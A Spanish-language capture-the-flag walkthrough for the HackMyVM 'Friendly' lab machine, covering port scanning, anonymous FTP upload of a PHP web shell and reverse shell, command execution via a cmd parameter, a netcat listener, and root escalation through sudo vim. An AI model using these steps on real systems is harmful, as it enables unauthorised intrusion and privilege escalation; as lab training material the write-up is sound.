


## Información:

| `Autor:`             | [RiJaba1](https://hackmyvm.eu/profile/?user=RiJaba1) |
| -------------------- | ---------------------------------------------------- |
| `Fecha de creacion:` | 2023-03-24                                           |
| `Dificultad:`        | Easy                                                 |

## Reconocimiento y enumeración:

Hacemos el reconocimiento de puertos con nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG allPorts.txt 192.168.1.98
```

Observamos que los puertos con estado `open` son el puerto 21 y 80

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-18 22:48 CST
Initiating ARP Ping Scan at 22:48
Scanning 192.168.1.98 [1 port]
Completed ARP Ping Scan at 22:48, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:48
Scanning 192.168.1.98 [65535 ports]
Discovered open port 80/tcp on 192.168.1.98
Discovered open port 21/tcp on 192.168.1.98
Completed SYN Stealth Scan at 22:48, 0.68s elapsed (65535 total ports)
Nmap scan report for 192.168.1.98
Host is up, received arp-response (0.00032s latency).
Scanned at 2024-09-18 22:48:04 CST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:10:C5:3E (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Con la finalidad de obtener las versiones de los servicios que tienen asignados esos puertos relizamos un segundo escaneo con nmap de los puertos.

```bash
sudo nmap -p21,80 -sCV 192.168.1.98 -oN openServices.txt 
```

Vemos que el puerto 21 tiene un servicio de proFTPD y que este permite login de usuarios anónimos.
También observamos que el puerto 80 tiene un servicio de apache corriendo.

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-18 22:49 CST
Nmap scan report for 192.168.1.98 (192.168.1.98)
Host is up (0.00010s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:10:C5:3E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
```

## Intrusión 

Intentamos una conexión ftp como usuario anónimo  

```bash
ftp 192.168.1.98
Connected to 192.168.1.98.
220 ProFTPD Server (friendly) [::ffff:192.168.1.98]
Name (192.168.1.98:quantum): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Listamos los archivos con el comando `dir` y observamos que existe un archivo index.html

```ruby
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
226 Transfer complete
ftp>
```

Intentamos subir un archivo malicioso php con la finalidad de poder obtener RCE (remote code execution).

```ruby
ftp> append
(local-file) cmdshell.php
(remote-file) cmdshell.php
200 PORT command successful
150 Opening BINARY mode data connection for cmdshell.php
226 Transfer complete
114 bytes sent in 0.0024 seconds (46.5 kbytes/s)
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      nogroup       114 Sep 19 04:57 cmdshell.php
-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
226 Transfer complete
ftp>
```
Vemos que el archivo es accesible:



Por lo que haremos la consulta de RCE con el comando whoami con el atributo cmd:

```ruby
http://192.168.1.98/cmdshell.php?cmd=whoami
```



Una vez comprobado que podemos realizar RCE procedemos a subir una reverse shell:

```ruby
ftp> append
(local-file) monkey.php
(remote-file) monkey.php
200 PORT command successful
150 Opening BINARY mode data connection for monkey.php
226 Transfer complete
2585 bytes sent in 0.00241 seconds (1.02 Mbytes/s)
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      nogroup       114 Sep 19 04:57 cmdshell.php
-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
-rw-r--r--   1 ftp      nogroup      2585 Sep 19 04:57 monkey.php
226 Transfer complete
ftp>
```

Nos ponemos a la escucha en netcat por el puerto 443:

```bash
sudo nc -lnvp 443
```

Obtenemos la reverse shell:

```ruby
Connection from 192.168.1.98:42200
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 00:59:00 up 14 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Procedemos a buscar la bandera de usuario con el comando find:

```bash
find / -name user.txt 2>/dev/null
```

La bandera de usuario se encuentra en la siguiente ruta:

```ruby
/home/RiJaba1/user.txt
```

## Escalada de privilegios

Realizamos la enumeración de los binarios con permisos SUID:

```bash
find / -perm -4000 -ls 2>/dev/null
```

No observamos nada extraño:

```ruby
  656427     52 -rwsr-xr--   1 root     messagebus    51336 Oct  5  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1051587    472 -rwsr-xr-x   1 root     root         481608 Jul  1  2022 /usr/lib/openssh/ssh-keysign
   657058     36 -rwsr-xr-x   1 root     root          35040 Jan 20  2022 /usr/bin/umount
   656685     44 -rwsr-xr-x   1 root     root          44632 Feb  7  2020 /usr/bin/newgrp
   652897     52 -rwsr-xr-x   1 root     root          52880 Feb  7  2020 /usr/bin/chsh
   657056     56 -rwsr-xr-x   1 root     root          55528 Jan 20  2022 /usr/bin/mount
   652833    180 -rwsr-xr-x   1 root     root         182600 Jan 14  2023 /usr/bin/sudo
   652900     64 -rwsr-xr-x   1 root     root          63960 Feb  7  2020 /usr/bin/passwd
   656816     72 -rwsr-xr-x   1 root     root          71912 Jan 20  2022 /usr/bin/su
   652896     60 -rwsr-xr-x   1 root     root          58416 Feb  7  2020 /usr/bin/chfn
   652899     88 -rwsr-xr-x   1 root     root          88304 Feb  7  2020 /usr/bin/gpasswd
```

Listamos los binarios ejecutables con sudo:

```bash
sudo -l
```

Vemos que el usuario www-data puede ejecutar vim como super usuario sin necesidad de contraseña:

```ruby
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Siguiendo la guia [GTFObins](https://gtfobins.github.io/gtfobins/vim/) podemos obtener una shell como usuario root, con el siguiente comando: 

```bash
sudo vim -c ':!/bin/sh'
```

Listo obtenemos una shell como root

```java
# whoami
root
```

## Obtener la ultima bandera

Para encontrar la ultima bandera utilizaremos el comando find de forma recursiva a desde la raiz `/` :

```bash
find / -name root.txt 2>/dev/null
```

Observamos que existen dos archivos que corresponden a la bandera de root:

```ruby
/var/log/apache2/root.txt
/root/root.txt
```

Procedemos a leer la bandera que se encuentra en el siguiente path:  `/root/root.txt`

```bash
cat /root/root.txt
```

La bandera nos muestra este contenido, por lo que donde realmente se encuentra la bandera de root es en el path: `/var/log/apache2/root.txt`

```ruby
Not yet! Find root.txt.
```
